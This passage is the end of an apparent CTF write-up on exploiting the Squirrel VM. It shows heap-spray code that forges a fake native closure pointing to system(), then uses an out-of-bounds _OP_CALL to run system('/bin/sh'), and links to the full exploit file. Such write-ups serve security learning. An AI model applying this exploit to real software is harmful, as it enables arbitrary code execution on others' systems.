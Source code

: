 This is is the fake SQNativeClosure, that all the fake sqTAGObjects will be pointing to. Since we're not
calling to many operations on it, most of its fields like the VTable or the liked-list entries can be
ignored and just zeroed out. This makes faking this object significantly simpler ;) 

```lua
sSpray.writen(0x55545352, 'l')     # _vptr
sSpray.writen(0x00000001, 'l')     # _uiRef
sSpray.writen(0x00000000, 'l')     # _weakref
sSpray.writen(0x00000000, 'l')     # _next
sSpray.writen(0x00000000, 'l')     # _prev
sSpray.writen(0x00000000, 'l')     # _sharedstate
sSpray.writen(0x00000000, 'l')     # _nparamscheck
sSpray.writen(0x00000000, 'l')     # _typecheck->_vals
sSpray.writen(0x00000000, 'l')     # _typecheck->_size
sSpray.writen(0x00000000, 'l')     # _typecheck->_allocated
sSpray.writen(0x00000000, 'l')     # _outervalues
sSpray.writen(0x00000000, 'l')     # _noutervalues
sSpray.writen(0x00000000, 'l')     # _env
sSpray.writen(systemClosure, 'l')  # _function      !!!system!!!
sSpray.writen(0x08000010, 'l')     # _name->_type
sSpray.writen(0x00000000, 'l')     # _name->_unVal

print("[+] Getting fakeClosure!\n")
```

We're all set! The heap has been prepared with our fake sqTAGObjects. Now, we need to prepare 
the parameters to call our fakeFunction with. We'll use the literal at offset 0x7, which is `/bin/sh\x00` (`win`),
the one we created at the very beginning of this exploit.

```lua
# --- ASM ---
# '[0xc5] _OP_MOVE: 0xc, 0x7, 0x0, 0x0',
```

Now we need to call one of our prepared sqTAGObjects using the OOB read in `_OP_CALL`. The VM will look up it's `_function` pointer, which we set to point to `system()` and then call it with the prepared parameters. This will end up calling `system('/bin/sh\x00')`.

```
# --- ASM ---
# '[0xc6] _OP_CALL: 0xff, 0x%x, 0xb, 0x2' % ((0xd650+0x5000) >> 4),
```

That's it. Enjoy your shell ;P 

![_config.yml]({{ site.baseurl }}/images/Exploiting-the-squirrel-VM/flag.png)

My final exploit can be found here: [exploit.nut](https://github.com/A2nkF/SquirrelAsAServive/blob/master/sq_exploit/exploit.nut) and here as assembled bytecode: [exploit.cnut](https://github.com/A2nkF/SquirrelAsAServive/blob/master/sq_exploit/exploit.cnut).

